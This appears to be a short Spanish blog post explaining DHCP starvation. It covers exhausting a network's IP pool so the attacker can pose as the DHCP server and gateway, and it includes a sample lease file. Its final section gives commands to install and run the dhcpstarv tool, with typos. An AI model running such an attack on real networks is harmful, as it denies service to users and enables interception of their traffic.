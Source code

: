 ```yaml
---
Description: "DHCP Starvation"
Keywords:
- sysadmin 
- sistemas
- dhcp
Section: 
Tags:
- dhcp
Thumbnail: https://pbs.twimg.com/media/CtVBjleWIAARyAR?format=jpg
socialImage: https://pbs.twimg.com/media/CtVBjleWIAARyAR?format=jpg
featuredImage: https://pbs.twimg.com/media/CtVBjleWIAARyAR?format=jpg
Title: DHCP Starvation
Topics:
- sysarmy
- join
- chat
markup: markdown
date: 2020-04-16
---
```

# Situación
Esto es básicamente agotar las direcciones IP disponibles. Pero no solo eso. El tema es que una vez agotadas las IP, nosotros podemos ser el server DHCP y ser el gateway y que todas las conexiones pasen por nosotros.

## A ver  de donde sacamos las IPs que tenemos asignadas
Si queremos ver la ip asignada, el tiempo etc

```
cat /var/lib/dhcp/dhclient.enp0s3.leases
```

```
default-duid "\000\001\000\001%\2465u\010\000'&\354\332";
lease {
  interface "enp0s3";
  fixed-address 10.1.2.46;
  option subnet-mask 255.255.0.0;
  option time-offset -10800;
  option routers 10.1.0.1;
  option dhcp-lease-time 604800;
  option dhcp-message-type 5;
  option domain-name-servers 1.1.1.1,1.0.0.1;
  option dhcp-server-identifier 10.1.0.1;
  option unknown-224 "FGT50E3U17030986";
  option dhcp-renewal-time 302400;
  option dhcp-rebinding-time 529200;
  renew 5 2020/03/06 20:04:31;
  rebind 5 2020/03/06 20:04:31;
  expire 5 2020/03/06 20:04:31;
}

lease {
  interface "enp0s3";
  fixed-address 192.168.1.106;
  server-name "TP-LINK";
  option subnet-mask 255.255.255.0;
  option dhcp-lease-time 259200;
  option routers 192.168.1.1;
  option dhcp-message-type 5;
  option dhcp-server-identifier 192.168.1.1;
  option domain-name-servers 192.168.1.1;
  option dhcp-renewal-time 129600;
  option dhcp-rebinding-time 226800;
  option host-name "dhcppc6";
  option domain-name "";
  renew 0 2020/04/05 23:42:27;
  rebind 2 2020/04/07 10:14:29;
  expire 2 2020/04/07 19:14:29;
}
```
## Jodiendo
Bueno, vamos a instalar lo que es la aplicación que va a starvear todas las direcciones IP:
```
apt-get -y instal dhcpstarv
dhcpstarb -i wlanp0s1 -v
```

Y listo, esperamos un rayo y agotamos las conexiones
Enjoy!

[ipf0rw4rd](https://twitter.com/ipf0rw4rd)

[My Blog](https://blog.ipforward.co)
